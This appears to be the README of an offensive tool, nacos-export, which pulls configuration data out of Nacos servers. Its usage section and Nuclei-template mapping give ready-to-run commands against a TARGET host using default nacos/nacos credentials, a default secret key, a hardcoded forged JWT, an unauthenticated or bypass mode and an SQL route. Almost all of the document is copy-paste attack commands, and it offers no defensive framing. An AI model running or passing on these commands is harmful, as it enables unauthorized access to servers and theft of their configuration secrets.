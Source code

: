 # NACOS EXPORT

- ✅ 通过nacos账号密码导出配置
- ✅ 通过secretkey导出配置
- ✅ 通过token导出配置
- ✅ 通过unauth/bypass导出配置
- ✅ 导出配置数量统计
- ✅ 通过sql导出配置

## Use

考虑到NACOS部署方式不同，在设置目标路径时，指向`/v1`的上一级目录.

> 若要将将结果保存至文件，请通过重定向输出方式

```text
$ python3 nacos-export.py

 ______________
< Nacos Export >         @Author: Arm!tage
 --------------          @Version: v1.2.0
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

Usage:
    python3 nacos-export.py <URL> <USERNAME> <PASSWORD>
    python3 nacos-export.py <URL> secertkey <SECRETKEY>
    python3 nacos-export.py <URL> <TOKEN>
    python3 nacos-export.py <URL> bypass|unauth
    python3 nacos-export.py <URL> sql

Example:
    python3 nacos-export.py http://TARGET:8848/nacos nacos nacos
    python3 nacos-export.py http://TARGET:8848/nacos secretkey SecretKey012345678901234567890123456789012345678901234567890123456789
    python3 nacos-export.py http://TARGET:8848/nacos eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OTl9.-isk56R8NfioHVYmpj4oz92nUteNBCN3HRd0-Hfk76g
    python3 nacos-export.py http://TARGET:8848/nacos unauth
    python3 nacos-export.py http://TARGET:8848/nacos sql
```

## Nuclei Template

- **nacos-default-login**
  - `python3 nacos-export.py http://TARGET:8848/nacos nacos nacos`
- **unauthenticated-nacos-access**
  - `python3 nacos-export.py http://TARGET:8848/nacos unauth`
  - `python3 nacos-export.py http://TARGET:8848/nacos bypass`
- **nacos-auth-bypass**
  - `python3 nacos-export.py http://TARGET:8848/nacos unauth`
  - `python3 nacos-export.py http://TARGET:8848/nacos bypass`
- **nacos-authentication-bypass:extracted-credentials**
  - `python3 nacos-export.py http://TARGET:8848/nacos eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OTl9.-isk56R8NfioHVYmpj4oz92nUteNBCN3HRd0-Hfk76g`
